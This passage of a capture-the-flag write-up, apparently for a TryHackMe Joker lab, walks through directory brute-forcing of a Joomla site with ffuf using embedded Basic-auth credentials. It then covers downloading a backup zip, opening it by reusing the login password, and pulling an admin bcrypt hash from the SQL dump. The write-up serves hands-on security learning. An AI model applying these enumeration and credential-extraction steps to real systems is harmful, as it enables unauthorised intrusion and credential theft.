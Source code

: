 after the login i was presented with a joomla blog.

![image](/images/Pasted image 20221202094007.png)

nothing special on the site. so doing another dirbusting run.

```shell
$ ffuf -w `fzf-wordlist` -u http://hajoker.thm:8080/FUZZ -H "Authorization: Basic am9rZXI6aGFubmFo"

administrator           [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 40ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 1736ms]
backup                  [Status: 200, Size: 12133560, Words: 0, Lines: 0, Duration: 0ms]
bin                     [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 39ms]
cache                   [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 40ms]
components              [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 40ms]
                        [Status: 200, Size: 10920, Words: 776, Lines: 218, Duration: 3798ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 4165ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 4209ms]
images                  [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 38ms]
includes                [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 40ms]
index.php               [Status: 200, Size: 10941, Words: 776, Lines: 218, Duration: 101ms]
language                [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 40ms]
layouts                 [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 39ms]
libraries               [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 40ms]
LICENSE                 [Status: 200, Size: 18092, Words: 3133, Lines: 340, Duration: 135ms]
media                   [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 39ms]
modules                 [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 40ms]
plugins                 [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 48ms]
README                  [Status: 200, Size: 4494, Words: 481, Lines: 73, Duration: 48ms]
robots                  [Status: 200, Size: 836, Words: 88, Lines: 33, Duration: 42ms]
robots.txt              [Status: 200, Size: 836, Words: 88, Lines: 33, Duration: 40ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 40ms]
templates               [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 44ms]
tmp                     [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 40ms]
web.config              [Status: 200, Size: 1690, Words: 482, Lines: 32, Duration: 152ms]
:: Progress: [4614/4614] :: Job [1/1] :: 1004 req/sec :: Duration: [0:00:08] :: Errors: 0 ::

```

i found a backup of the server and downloaded the file to my box. it was a zip file with a password protection. i used the same password as with the login page and got the content unziped.

```shell
┌──(j0j0pupp3㉿bAs3)-[~/THM/hajokerctf/db]
└─$ ls
joomladb.sql
```

the interesting part was the database backup.
i opened it with vim and searched for password.

```shell
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin',
'admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG',
0,1,'2019-10-08 12:00:15','2019-10-25
15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\
"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
/*!40000 ALTER TABLE `cc1gr_users` ENABLE KEYS */;
UNLOCK TABLES;

```
